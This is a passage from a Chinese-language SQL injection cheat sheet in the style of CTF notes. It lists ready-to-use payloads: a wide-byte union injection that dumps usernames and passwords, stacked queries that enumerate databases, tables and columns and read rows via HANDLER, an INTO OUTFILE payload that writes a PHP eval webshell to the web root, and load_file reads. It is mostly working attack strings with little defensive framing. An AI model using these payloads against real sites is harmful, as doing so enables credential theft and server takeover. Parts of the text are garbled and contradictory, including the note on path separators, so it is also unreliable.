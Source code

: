 爆值

```
1%df%5c%27 union select 1,group_concat(username,0x3b,password) from users--+
```



### 堆叠注入

SQL中，用分号（;）来连接多条语句并一起执行。

执行条件十分有限，可能受到API或者数据库引擎等的限制

1. 查数显

   ```
   ?id=1' order by 2--+
   ```

2. 查看注入注入是否成功

   ```
   ?id=1';show databases%23
   ```

3. 爆表

   ```
   ?id=1'; show tables%23
   ```

4. 查字段

   ```
   ?id=1'; show columns from `1919810931114514` %23
   ```

5. 爆值

   ```
   ?id=1'; handler `1919810931114514` open;handler`1919810931114514` read first;		//handler查看内容
   ```



### SQL注入文件的写入和读取

使用之前我们需要找到网站的绝对路径。（获取办法：报错信息、谷歌语法、site：目标网站 warning、遗留文件如phpinfo、读取配置文件路径）

注意路径符号："\\\\"、"/"都是正确的，"/"错误，如果路劲转换为16进制就可以不用引导

- 文件写入**into outfile函数**

  ```
  ?id=1' union select 1,"<?php @eval($_GET['x']); ?>",3,4 into outfile 'C:/wwwroot/webshell.php --+
  ```

- 文件读取**load_file()函数**，只能读取到内容，读不到源码

  ```
  ?id=1' union select 1,load_file("C:/wwwroot/webshell.php"),3,4 --+
  ```
